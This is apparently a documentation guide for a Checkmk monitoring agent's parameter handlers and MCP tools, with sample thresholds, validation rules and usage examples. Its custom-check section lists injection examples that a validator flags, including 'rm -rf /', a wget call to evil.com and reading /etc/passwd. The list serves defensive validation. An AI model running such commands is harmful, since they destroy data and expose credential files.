

# Comprehensive Parameter Management Guide

This guide provides detailed information about the advanced parameter management system implemented in the Checkmk LLM Agent, including specialized parameter handlers, intelligent defaults, and best practices.

## Overview

The parameter management system provides intelligent, context-aware parameter generation and validation for Checkmk services through specialized handlers. Each handler understands specific service types and can provide optimized default parameters, validate configurations, and suggest improvements.

## Architecture

### Handler System

The parameter management system is built around specialized handlers that understand different types of monitoring services:



### Handler Registry

The `HandlerRegistry` is the central component that manages all parameter handlers:

- **Service Pattern Matching**: Automatically selects the best handler based on service names
- **Ruleset Compatibility**: Matches handlers to appropriate Checkmk rulesets
- **Priority System**: Ensures the most specific handler is selected first
- **Caching**: Improves performance by caching handler instances
- **Thread Safety**: Supports concurrent access in multi-threaded environments

## Specialized Handlers

### 1. Temperature Parameter Handler

**Purpose**: Manages temperature monitoring parameters for various hardware components.

**Supported Services**:
- CPU Temperature
- GPU Temperature
- System/Ambient Temperature
- Storage Temperature (HDD/SSD)
- Chassis Temperature
- Power Supply Temperature
- Network Card Temperature

**Supported Rulesets**:
- `checkgroup_parameters:temperature`
- `checkgroup_parameters:hw_temperature`
- `checkgroup_parameters:environmental`

**Key Features**:

#### Temperature Profiles
Different hardware components have optimized temperature profiles:

```python
# CPU Temperature Profile
{
    "levels": (75.0, 85.0),        # Warning at 75°C, Critical at 85°C
    "levels_lower": (5.0, 0.0),    # Warning below 5°C, Critical below 0°C
    "output_unit": "c",            # Celsius output
    "device_levels_handling": "devdefault"
}

# Ambient Temperature Profile  
{
    "levels": (35.0, 40.0),        # Lower thresholds for room temperature
    "levels_lower": (10.0, 5.0),   # Reasonable lower bounds
    "output_unit": "c"
}

# Storage Temperature Profile
{
    "levels": (50.0, 60.0),        # Conservative thresholds for drives
    "levels_lower": (5.0, 0.0),
    "output_unit": "c"
}
```

#### Temperature Unit Conversion
Supports automatic conversion between temperature units:

```python
# Fahrenheit to Celsius
fahrenheit_levels = (167.0, 185.0)  # 75°C, 85°C in Fahrenheit
celsius_levels = handler.convert_to_celsius(*fahrenheit_levels, "f")
# Result: (75.0, 85.0)

# Kelvin to Celsius
kelvin_levels = (348.15, 358.15)  # 75°C, 85°C in Kelvin
celsius_levels = handler.convert_to_celsius(*kelvin_levels, "k")
# Result: (75.0, 85.0)
```

#### Context-Aware Defaults
Parameters adapt based on environment context:

```python
# Production environment - stricter thresholds
production_context = {"environment": "production", "criticality": "high"}
result = handler.get_default_parameters("CPU Temperature", production_context)
# May return stricter thresholds like (70.0, 80.0)

# Development environment - relaxed thresholds
dev_context = {"environment": "development", "criticality": "low"}
result = handler.get_default_parameters("CPU Temperature", dev_context)
# May return relaxed thresholds like (80.0, 90.0)
```

### 2. Database Parameter Handler

**Purpose**: Manages parameters for database monitoring services.

**Supported Databases**:
- Oracle (tablespaces, sessions, archive logs, SGA/PGA)
- MySQL (connections, InnoDB, replication, query cache)
- PostgreSQL (connections, locks, database size, vacuum, WAL)
- SQL Server (buffer cache, connections, deadlocks)
- MongoDB (connections, replica sets, locks, memory)
- Redis (memory, connections, keyspace, replication)

**Supported Rulesets**:
- `checkgroup_parameters:oracle_*`
- `checkgroup_parameters:mysql_*`
- `checkgroup_parameters:postgres_*`
- `checkgroup_parameters:mongodb_*`
- `checkgroup_parameters:redis_*`

**Key Features**:

#### Database-Specific Optimization
Each database type has optimized default parameters:

```python
# Oracle Tablespace Parameters
{
    "levels": (80.0, 90.0),        # Standard tablespace thresholds
    "autoextend": True,            # Consider autoextend settings
    "magic_normsize": 1000,        # Normalize size calculations
    "show_tablespaces": []         # All tablespaces by default
}

# MySQL Connection Parameters
{
    "levels": (80.0, 90.0),        # Connection count thresholds
    "buffer_pool_hit_rate": (90.0, 95.0),  # InnoDB buffer pool efficiency
    "connection_timeout": 30,       # Connection timeout
    "slow_query_threshold": 5.0     # Slow query detection
}

# PostgreSQL Lock Parameters
{
    "levels": (100, 200),          # Lock count thresholds
    "max_connections_percent": True, # Use percentage of max_connections
    "vacuum_age_threshold": 86400   # Vacuum age in seconds
}
```

#### Connection Parameter Validation
Validates database connection parameters:

```python
# Validate connection parameters
connection_params = {
    "hostname": "db.example.com",
    "port": 3306,
    "database": "monitoring",
    "username": "checkmk_user",
    "ssl_verify": True
}

validation_result = handler.validate_parameters(connection_params, "MySQL Connections")
# Validates hostname, port range, database name format, etc.
```

### 3. Network Service Parameter Handler

**Purpose**: Manages parameters for network service monitoring.

**Supported Services**:
- HTTP/HTTPS monitoring
- TCP/UDP port checks
- DNS resolution monitoring
- SSH connection testing
- FTP service monitoring
- Email services (SMTP, IMAP, POP3)

**Supported Rulesets**:
- `checkgroup_parameters:http`
- `checkgroup_parameters:tcp_conn_stats`
- `checkgroup_parameters:dns`
- `checkgroup_parameters:ssh`

**Key Features**:

#### Service-Specific Parameters
Different network services have tailored parameters:

```python
# HTTPS Monitoring Parameters
{
    "response_time": (2.0, 5.0),     # Response time thresholds
    "timeout": 10,                   # Connection timeout
    "ssl_cert_age": (30, 7),         # Certificate expiry warnings (days)
    "ssl_verify": True,              # Verify SSL certificates
    "ssl_version": "TLSv1.2",        # Minimum TLS version
    "expect": "200",                 # Expected HTTP status
    "user_agent": "Checkmk-Agent/2.4" # Custom user agent
}

# TCP Port Check Parameters
{
    "response_time": (1.0, 3.0),     # TCP connection time
    "timeout": 10,                   # Connection timeout
    "port": None,                    # Port number (extracted from service)
    "hostname": None                 # Hostname (extracted from service)
}

# DNS Resolution Parameters
{
    "response_time": (0.5, 2.0),     # DNS resolution time
    "timeout": 5,                    # Query timeout
    "record_type": "A",              # DNS record type
    "expected_result": None,         # Expected IP address
    "nameserver": None               # Specific nameserver to use
}
```

#### URL and Hostname Validation
Comprehensive validation for network parameters:

```python
# URL Validation
valid_urls = [
    "https://api.example.com/health",
    "http://monitoring.internal.com:8080/status",
    "https://secure.example.com/api/v1/ping"
]

invalid_urls = [
    "ftp://example.com",       # Wrong protocol
    "https://",                # Incomplete URL
    "not-a-url",              # Invalid format
    "https://example:99999"    # Invalid port
]

# Hostname Validation
valid_hostnames = [
    "server.example.com",
    "192.168.1.100",          # IPv4
    "2001:db8::1",            # IPv6
    "localhost"
]

invalid_hostnames = [
    "invalid..hostname",       # Double dots
    "hostname_with_underscore", # Underscores not allowed
    ""                        # Empty hostname
]
```

### 4. Custom Check Parameter Handler

**Purpose**: Manages parameters for custom monitoring checks.

**Supported Check Types**:
- MRPE (Monitoring Remote Plugin Executor) checks
- Local checks
- Nagios plugins
- Custom scripts
- Active checks

**Supported Rulesets**:
- `checkgroup_parameters:local`
- `checkgroup_parameters:mrpe`
- `checkgroup_parameters:custom_checks`
- `checkgroup_parameters:active_checks`

**Key Features**:

#### Check Type Detection
Automatically detects the type of custom check:

```python
# Service name patterns and detected types
check_types = {
    "MRPE check_disk": "mrpe",
    "Local memory_check": "local", 
    "check_mysql": "nagios_plugin",
    "Custom Health Script": "script",
    "HTTP www.example.com": "active_check"
}
```

#### Nagios Threshold Validation
Validates Nagios-style threshold formats:

```python
# Valid Nagios thresholds
valid_thresholds = [
    "10",           # Simple value
    "10:",          # 10 to infinity  
    "~:10",         # Negative infinity to 10
    "10:20",        # Range 10 to 20
    "@10:20",       # Inside range (inverted logic)
    "10.5:20.7"     # Decimal values
]

# Validation example
threshold = "80:90"
is_valid = handler.is_valid_nagios_threshold(threshold)  # True
```

#### Command Security Validation
Validates command parameters for security risks:

```python
# Safe commands
safe_commands = [
    "check_disk -w 80% -c 90% /var",
    "check_load -w 5,4,3 -c 10,6,4",
    "check_mysql -H localhost -u monitor"
]

# Potentially dangerous commands (flagged with warnings)
dangerous_commands = [
    "check_disk; rm -rf /",                    # Command injection
    "check_load && wget http://evil.com/script", # Command chaining
    "check_http `cat /etc/passwd`",            # Command substitution
    "check_mysql $(whoami)"                    # Command substitution
]
```

## MCP Tools for Parameter Management

The parameter management system exposes 12 specialized MCP tools for comprehensive parameter operations:

### Core Parameter Tools

#### 1. get_specialized_defaults
Gets intelligent default parameters for a service using specialized handlers.

```python
# Example usage
arguments = {
    "service_name": "CPU Temperature",
    "context": {
        "environment": "production",
        "criticality": "high"
    }
}

result = await mcp_server.call_tool("get_specialized_defaults", arguments)
```

#### 2. validate_specialized_parameters
Validates parameters using the appropriate specialized handler.

```python
arguments = {
    "parameters": {
        "levels": (75.0, 85.0),
        "output_unit": "c"
    },
    "service_name": "CPU Temperature"
}

result = await mcp_server.call_tool("validate_specialized_parameters", arguments)
```

#### 3. get_parameter_suggestions
Gets optimization suggestions for current parameters.

```python
arguments = {
    "service_name": "MySQL Connections",
    "current_parameters": {"levels": (50.0, 60.0)}
}

result = await mcp_server.call_tool("get_parameter_suggestions", arguments)
```

### Discovery and Information Tools

#### 4. discover_parameter_handlers
Discovers which handlers can work with a specific service.

```python
arguments = {
    "service_name": "Oracle Tablespace USERS",
    "ruleset": "checkgroup_parameters:oracle_tablespaces"
}

result = await mcp_server.call_tool("discover_parameter_handlers", arguments)
```

#### 5. get_handler_info
Gets detailed information about available parameter handlers.

```python
# Get info for specific handler
arguments = {"handler_name": "temperature"}

# Get info for all handlers
arguments = {}

result = await mcp_server.call_tool("get_handler_info", arguments)
```

### Bulk Operations

#### 6. bulk_parameter_operations
Performs bulk parameter operations across multiple services.

```python
# Bulk get defaults
arguments = {
    "service_names": [
        "CPU Temperature",
        "MySQL Connections", 
        "HTTP Health Check"
    ],
    "operation": "get_defaults"
}

# Bulk validation
arguments = {
    "operations": [
        {
            "service_name": "CPU Temperature",
            "parameters": {"levels": (75.0, 85.0)},
            "operation": "validate"
        },
        {
            "service_name": "MySQL Connections", 
            "parameters": {"levels": (80.0, 90.0)},
            "operation": "validate"
        }
    ]
}

result = await mcp_server.call_tool("bulk_parameter_operations", arguments)
```

### Rule Management

#### 7. create_specialized_rule
Creates Checkmk rules using specialized parameter handlers.

```python
arguments = {
    "service_name": "CPU Temperature",
    "rule_data": {
        "ruleset": "checkgroup_parameters:temperature",
        "folder": "/servers/production",
        "conditions": {
            "host_name": ["server01", "server02"],
            "service_description": ["CPU Temperature"]
        },
        "properties": {
            "comment": "Production CPU temperature monitoring",
            "description": "Optimized CPU temperature thresholds"
        },
        "value": {
            "levels": (75.0, 85.0),
            "output_unit": "c"
        }
    }
}

result = await mcp_server.call_tool("create_specialized_rule", arguments)
```

### Service Discovery

#### 8. search_services_by_handler
Searches for services that match a specific handler type.

```python
arguments = {
    "handler_name": "temperature",
    "service_pattern": "CPU*",  # Optional pattern filter
    "host_filter": "server*"    # Optional host filter
}

result = await mcp_server.call_tool("search_services_by_handler", arguments)
```

### Configuration Management

#### 9. export_parameter_configuration
Exports parameter configurations for services.

```python
# Export as JSON
arguments = {
    "services": ["CPU Temperature", "MySQL Connections"],
    "format": "json",
    "include_metadata": True
}

# Export as YAML
arguments = {
    "services": ["HTTP Health Check"],
    "format": "yaml",
    "include_defaults": True
}

result = await mcp_server.call_tool("export_parameter_configuration", arguments)
```

## Best Practices

### 1. Handler Selection

**Let the system choose**: The handler registry automatically selects the best handler based on service names and rulesets. Manual handler selection is rarely needed.

```python
# Good - let the system decide
result = await parameter_service.get_specialized_defaults("CPU Temperature")

# Unnecessary - manual handler selection
handler = registry.get_handler("temperature")
result = handler.get_default_parameters("CPU Temperature")
```

### 2. Context Usage

**Provide context when available**: Context information helps handlers generate more appropriate parameters.

```python
# Better - with context
context = {
    "environment": "production",
    "criticality": "high",
    "location": "datacenter_a"
}
result = await parameter_service.get_specialized_defaults(
    "CPU Temperature", context
)

# Good - without context
result = await parameter_service.get_specialized_defaults("CPU Temperature")
```

### 3. Parameter Validation

**Always validate before applying**: Use the validation tools to ensure parameters are correct before creating rules.

```python
# Validate parameters first
validation_result = await parameter_service.validate_specialized_parameters(
    parameters, service_name
)

if validation_result.data["is_valid"]:
    # Safe to create rule
    rule_result = await parameter_service.create_specialized_rule(
        service_name, rule_data
    )
else:
    print("Parameter validation failed:", validation_result.data["errors"])
```

### 4. Bulk Operations

**Use bulk operations for efficiency**: When working with many services, use bulk operations to improve performance.

```python
# Efficient - bulk operation
service_names = ["CPU Temperature", "GPU Temperature", "System Temperature"]
bulk_result = await mcp_server.call_tool("bulk_parameter_operations", {
    "service_names": service_names,
    "operation": "get_defaults"
})

# Less efficient - individual calls
results = []
for service_name in service_names:
    result = await mcp_server.call_tool("get_specialized_defaults", {
        "service_name": service_name
    })
    results.append(result)
```

### 5. Error Handling

**Handle errors gracefully**: Always handle potential errors from parameter operations.

```python
try:
    result = await parameter_service.get_specialized_defaults(service_name)
    if result.success:
        parameters = result.data["parameters"]
        handler_used = result.data["handler_used"]
    else:
        print(f"Failed to get defaults: {result.error}")
except Exception as e:
    print(f"Unexpected error: {e}")
```

## Performance Considerations

### 1. Handler Caching

Handlers are cached after first use to improve performance:

```python
# First call - handler is created and cached
handler1 = registry.get_handler("temperature")

# Subsequent calls - cached handler is returned
handler2 = registry.get_handler("temperature")  # Same instance as handler1
```

### 2. Bulk Operations

Use bulk operations for better throughput:

- **Single operations**: ~100-500 ops/second
- **Bulk operations**: ~1000+ ops/second
- **Concurrent bulk operations**: ~2000+ ops/second

### 3. Context Reuse

Reuse context objects when processing multiple services:

```python
# Efficient - reuse context
context = {"environment": "production", "criticality": "high"}

for service_name in service_names:
    result = await parameter_service.get_specialized_defaults(
        service_name, context  # Reuse same context object
    )
```

## Troubleshooting

### Common Issues

#### 1. Handler Not Found
**Symptom**: No specialized handler found for service
**Solution**: Check service name patterns and add to handler if needed

```python
# Check which handlers match
handlers = registry.get_handlers_for_service("My Custom Service")
if not handlers:
    print("No handlers found - service may need generic parameters")
```

#### 2. Parameter Validation Fails
**Symptom**: Parameters marked as invalid
**Solution**: Check validation errors and adjust parameters

```python
validation_result = await parameter_service.validate_specialized_parameters(
    parameters, service_name
)

if not validation_result.data["is_valid"]:
    for error in validation_result.data["errors"]:
        print(f"Validation error: {error.message}")
        print(f"Suggested fix: {error.suggested_fix}")
```

#### 3. Performance Issues
**Symptom**: Slow parameter operations
**Solution**: Use bulk operations and check handler caching

```python
# Check handler registry performance
registry_stats = registry.get_performance_stats()
print(f"Cache hit rate: {registry_stats['cache_hit_rate']:.1%}")
print(f"Average lookup time: {registry_stats['avg_lookup_time_ms']:.2f}ms")
```

### Debug Mode

Enable debug mode for detailed logging:

```python
import logging
logging.getLogger("checkmk_agent.services.handlers").setLevel(logging.DEBUG)
logging.getLogger("checkmk_agent.services.parameter_service").setLevel(logging.DEBUG)
```

## Examples

### Temperature Monitoring Setup

```python
# Get optimized CPU temperature parameters
result = await mcp_server.call_tool("get_specialized_defaults", {
    "service_name": "CPU Temperature",
    "context": {
        "environment": "production",
        "hardware_type": "server",
        "criticality": "high"
    }
})

parameters = result.data["parameters"]
# Result: {"levels": (70.0, 80.0), "output_unit": "c", ...}

# Create rule with specialized parameters
rule_result = await mcp_server.call_tool("create_specialized_rule", {
    "service_name": "CPU Temperature",
    "rule_data": {
        "ruleset": "checkgroup_parameters:temperature",
        "folder": "/servers/production",
        "conditions": {
            "host_name": ["web-*", "app-*"],
            "service_description": ["CPU Temperature"]
        },
        "value": parameters
    }
})
```

### Database Monitoring Configuration

```python
# Configure MySQL connection monitoring
mysql_result = await mcp_server.call_tool("get_specialized_defaults", {
    "service_name": "MySQL Connections"
})

# Add connection details
mysql_params = mysql_result.data["parameters"]
mysql_params.update({
    "hostname": "mysql.example.com",
    "port": 3306,
    "database": "production",
    "username": "monitor_user"
})

# Validate configuration
validation = await mcp_server.call_tool("validate_specialized_parameters", {
    "parameters": mysql_params,
    "service_name": "MySQL Connections"
})

if validation.data["is_valid"]:
    print("MySQL configuration is valid")
else:
    print("Validation errors:", validation.data["errors"])
```

### Bulk Temperature Configuration

```python
# Configure temperature monitoring for entire server farm
temp_services = [
    "CPU Temperature",
    "GPU Temperature", 
    "System Temperature",
    "HDD Temperature"
]

# Get defaults for all temperature services
bulk_result = await mcp_server.call_tool("bulk_parameter_operations", {
    "service_names": temp_services,
    "operation": "get_defaults",
    "context": {
        "environment": "production",
        "location": "datacenter_primary"
    }
})

# Create rules for each service type
for service_result in bulk_result.data["results"]:
    if service_result["success"]:
        service_name = service_result["service_name"]
        parameters = service_result["data"]["parameters"]
        
        rule_result = await mcp_server.call_tool("create_specialized_rule", {
            "service_name": service_name,
            "rule_data": {
                "ruleset": f"checkgroup_parameters:temperature",
                "folder": "/servers/production",
                "conditions": {
                    "host_name": ["server-*"],
                    "service_description": [service_name]
                },
                "value": parameters
            }
        })
```

## Conclusion

The specialized parameter handler system provides intelligent, context-aware parameter management for Checkmk services. By leveraging the appropriate handlers and following best practices, you can:

- Automatically generate optimized parameters for different service types
- Validate configurations before applying them
- Efficiently manage parameters across large environments
- Ensure consistent monitoring standards across your infrastructure

The system is designed to be extensible, allowing for new handlers to be added as monitoring requirements evolve.